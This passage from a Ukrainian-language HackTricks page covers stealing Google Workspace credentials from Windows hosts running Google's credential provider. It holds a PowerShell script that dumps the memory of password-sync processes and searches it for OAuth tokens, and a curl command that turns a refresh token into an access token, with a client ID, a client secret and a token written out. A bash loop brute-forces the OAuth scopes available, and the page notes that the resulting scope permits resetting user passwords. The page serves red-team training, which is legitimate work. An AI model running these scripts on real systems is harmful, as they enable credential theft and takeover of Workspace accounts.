$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Генерація токенів доступу з токенів оновлення

Використовуючи токен оновлення, можливо згенерувати токени доступу, використовуючи його та ідентифікатор клієнта і секрет клієнта, вказані в наступній команді:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Зверніть увагу, що навіть маючи refresh token, неможливо запитати будь-який scope для access token, оскільки ви можете запитувати лише **scopes, підтримувані додатком, в якому ви генеруєте access token**.

Також refresh token не є дійсним у кожному додатку.
{% endhint %}

За замовчуванням GPS не матиме доступу як користувач до кожного можливого OAuth scope, тому, використовуючи наступний скрипт, ми можемо знайти scopes, які можна використовувати з `refresh_token` для генерації `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

І ось вихід, який я отримав на момент написання:
```
https://www.googleapis.com/auth/admin.directory.user
```
Який є тим самим, що ви отримуєте, якщо не вказати жодної області.

{% hint style="danger" %}
З цією областю ви могли б **змінити пароль існуючого користувача для ескалації привілеїв**.
{% endhint %}

## Посилання

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
